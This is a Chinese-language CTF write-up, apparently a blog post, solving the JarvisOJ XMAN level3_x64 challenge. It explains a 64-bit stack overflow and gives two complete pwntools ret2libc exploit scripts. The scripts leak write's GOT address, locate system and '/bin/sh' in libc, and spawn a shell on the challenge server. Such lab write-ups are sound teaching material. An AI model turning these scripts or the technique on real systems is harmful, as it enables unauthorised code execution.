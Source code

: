 ```yaml
---
layout: post
title: 「JarvisOJ」XMANlevel3_x64题解
date: 2018-08-10 13:55:00
author:     "许大仙"
tags:
    - CTF
---
```


## 一、解题思路 ##

checesec查看

![栈保护情况](/assets/img/checksec3_64.jpg)

代码段和数据段不存在随机化，栈不可执行，无金丝雀值。

反汇编level3_x64，可知单纯靠elf=ELF("./level3_x64")，引入level3_x64文件，是不能得到system函数的调用地址的。**观察函数列表就知道，没有system函数，所以PLT表中没有system函数的条目[这个程序没有调用过system函数，故system不参与符号解析过程，符号表中没有system]。**

所以sys_addr = elf.plt['system']或elf.symbols['system']是找不到表项/条目的。

在IDA中反汇编libc-2.19.so，可以在函数列表中找到“system”、字符串窗口中找到“/bin/sh”

![“system”和“/bin/sh”](/assets/img/sys_bin3.jpg)

所以还要引入.so文件[libc_elf=ELF("./libc-2.19.so")]。通过获得有GOT/PLT表项的某个函数A的真实地址以及.so文件中A和system函数和“/bin/sh”字符串偏移量与程序运行时三者的运行时(真实)地址偏移量相同的关系，通过A的真实地址+相等偏移量获得system函数的调用地址和"/bin/sh"字符串的地址。[类似于JOJXMAN3笔记所述]


因为write/read在level3_x64程序中有符号引用，所以他们有PLT条目[可以调用write来打印write _ got->recv(4)->获取write的真实地址]和GOT条目[GOT表泄露了他们的真实地址]

注:

- elf.plt['write']和elf.got['write']，仅仅只是write函数在PLT表和GOT表的索引，不是PLT表和GOT表的具体的内容[以elf.got['write']为索引，索引到的GOT表内容是write函数的运行时(真实)地址]

- python没有指针，故不能*write_got，来获得write函数的真实地址。


与32位下的差别在于，32位机器下：write函数打印write_ got,即write(1,write _ got,4)，3个参数分别布置在栈中ebp+8,+12,+16; 
而64位机器下，打印write_ got为write(1,write _ got,8)，而且3个参数布置在%rdi,%rsi,%rdx。

设置三个参数：简单的方法即使ROPgadgets能直接得到合适的ROP链，要不然就是使用通用gadgets：__ libc_ csu_ init【以下会给出两种方法】

## 二、解题步骤 ##

![查找可用ROP链](/assets/img/ROP3.jpg)

我们可以布置栈，通过POP指令设置寄存器，通过ret指令将ROP连接起来，形成链。

> 0x00000000004006b3 : pop rdi ; ret
> 
> 0x00000000004006b1 : pop rsi ; pop r15 ; ret #多放置8字节任意数据用于填充%r15

通过ROPgadget工具查找的可用ROP链，只能设置%rdi和%rsi寄存器，剩下的%rdx怎么办？

![gdb反汇编在vulnerable_function中断点](/assets/img/disas.jpg)

![观察edx寄存器](/assets/img/disas9.jpg)

运气不错，edx寄存器在read退栈前一刻，保持着0x200[这个其实来自于栈溢出漏洞read(0, &buf, 0x200)中的第三个参数设置，此后vulnerable_function没有再动过这个寄存器]

![edx寄存器值的来源](/assets/img/read9.jpg)


write函数的定义就是ssize_t write(int fd, const void *buf, size_t nbyte);把buf中nbyte写入文件描述符handle所指的文档，成功时返回写的字节数，错误时返回-1.

- fd：文件描述符[1表示写到标准输出，即屏幕]；
- buf：指定的缓冲区，即指针，指向一段内存单元；
- nbyte：要写入文件指定的字节数；
- 返回值：写入文档的字节数（成功），-1（出错）

当写到nbyte的字节限制时，就write结束了。

因此edx大，没关系，多写出一点[>=8就好]。到时候recv(8)，就获取前8字节得到write _ got的值就可以了，剩下的不receive就行。

最后就是0x00000000004006b3和0x00000000004006b1来设置rdi和rsi，然后rdx不需要设置，保持0x200

脚本情况就是：

    #!/usr/bin/python
    
    from pwn import *
    
    context(arch="amd64",os="linux",log_level="debug")
    re = remote("pwn2.jarvisoj.com",9883) 
    #re = gdb.debug(["./level3_x64"])
    
    elf = ELF("./level3_x64")
    write_plt = elf.plt['write']
    write_got = elf.got['write']
    prdi_addr = 0x00000000004006b3
    prsi_addr = 0x00000000004006b1  
    vuln_addr = elf.symbols['vulnerable_function']


​    
    payload1 = 'a'*0x80 + 'a'*0x8 + p64(prdi_addr)+p64(1)+p64(prsi_addr)+p64(write_got) +'a'*0x8 + p64(write_plt) + p64(vuln_addr)
    re.recvline()
    re.sendline(payload1)
    
    write_addr = u64(re.recv(8))
    
    libc_elf=ELF("./libc-2.19.so")
    
    #just address offset
    sys_relative = libc_elf.symbols['system']
    write_relative = libc_elf.symbols['write']
    bin_relative = libc_elf.search('/bin/sh').next()
    
    sys_addr = write_addr + sys_relative - write_relative
    bin_addr = write_addr + bin_relative - write_relative
    
    payload2 = 'a'*0x80 + 'a'*0x8 + p64(prdi_addr) + p64(bin_addr)+p64(sys_addr)
    
    re.send(payload2)
    
    re.interactive()


还有就是使用通用的gadgets：

![通用的gadgets调用流程](/assets/img/init9.jpg)

    #!/usr/bin/python
    
    from pwn import *
    
    context(arch="amd64",os="linux",log_level="debug")
    re = remote("pwn2.jarvisoj.com",9883) 
    #re = gdb.debug(["./level3_x64"])
    
    elf = ELF("./level3_x64")
    write_plt = elf.plt['write']
    write_got = elf.got['write']
    pr_addr = 0x00000000004006b3
    vuln_addr = elf.symbols['vulnerable_function']


​    
​    
    para_set_addr = 0x00000000004006AA
    
    para_ret_addr = 0x0000000000400690
    
    payload1 = 'a'*0x80 + 'a'*0x8 + p64(para_set_addr)+p64(0)+p64(1)+p64(write_got)+p64(8)+p64(write_got)+p64(1)+ p64(para_ret_addr)+'a'*56 + p64(vuln_addr)
    re.recvline()
    re.sendline(payload1)
    
    write_addr = u64(re.recv(8))
    
    libc_elf=ELF("./libc-2.19.so")
    
    #just address offset
    sys_relative = libc_elf.symbols['system']
    write_relative = libc_elf.symbols['write']
    bin_relative = libc_elf.search('/bin/sh').next()
    
    sys_addr = write_addr + sys_relative - write_relative
    bin_addr = write_addr + bin_relative - write_relative
    
    payload2 = 'a'*0x80 + 'a'*0x8 + p64(pr_addr) + p64(bin_addr)+p64(sys_addr)
    
    re.send(payload2)
    
    re.interactive()


注意使用p64,u64,8字节而非4字节








